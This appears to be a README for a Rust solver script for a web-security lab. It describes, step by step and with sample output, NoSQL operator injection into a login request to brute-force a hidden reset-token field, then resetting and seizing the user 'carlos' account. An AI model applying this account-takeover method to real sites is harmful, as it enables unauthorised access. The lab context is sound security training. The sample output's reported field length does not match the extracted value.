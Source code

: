 ## Hack Steps

1. Fetch the forgot-password page
2. Extract the csrf token and session cookie
3. Make a forgot-password request for carlos
4. Inject an operator and payload into the login JSON object to determine the length of the unknown field name
5. Modify the payload to brute force the field name
6. Modify the payload to determine the length of the field value
7. Modify the payload to brute force the field value
8. Fetch the forgot-password page with the field name and its value as a query pararmeter
9. Extract the csrf token and session cookie
10. Make a reset password request for carlos
11. Login as carlos with the new password
12. Fetch the carlos profile

## Run Script

1. Change the URL of the lab
2. Start script

```
~$ cargo run
```

## Expected Output

```
⦗#⦘ Injection point: login JSON object
⦗1⦘ Fetching the forgot-password page.. OK
⦗2⦘ Extracting the csrf token and session cookie.. OK
⦗3⦘ Sending a reset password request for carlos.. OK
⦗4⦘ Determining the length of the 3rd field.. 
❯❯ Checking if length = 5 
❯❯ Checking if length = 9 
                ...........
❯❯ Checking if length = 11 [ Correct length: 11 ]
⦗5⦘ Brute force the field name.. 
❯❯ Checking if char at position 4 = c [ Correct: unloc ]
❯❯ Checking if char at position 7 = o [ Correct: unlockTo ]
                ...........
❯❯ Checking if char at position 10 = n [ Correct: unlockToken ]
⦗6⦘ Determining the length of the 3rd field value.. 
❯❯ Checking if length = 5 
❯❯ Checking if length = 9 
                ...........
❯❯ Checking if length = 11 [ Correct length: 11 ]
⦗7⦘ Brute force the field value.. 
❯❯ Checking if char at position 5 = e [ Correct: 326f5e ]
❯❯ Checking if char at position 9 = 0 [ Correct: 326f5e3852 ]
                ...........
❯❯ Checking if char at position 15 = 0 [ Correct: 326f5e38529aa000 ]
⦗8⦘ Fetching the forgot-password page with the field name and its value as a query pararmter.. OK
⦗9⦘ Extracting the csrf token and session cookie.. OK
⦗10⦘ Reseting carlos password to Hacked..OK
⦗11⦘ Logging in as the carlos.. OK
⦗12⦘ Fetching the carlos profile.. OK
🗹 The lab should be marked now as solved
```

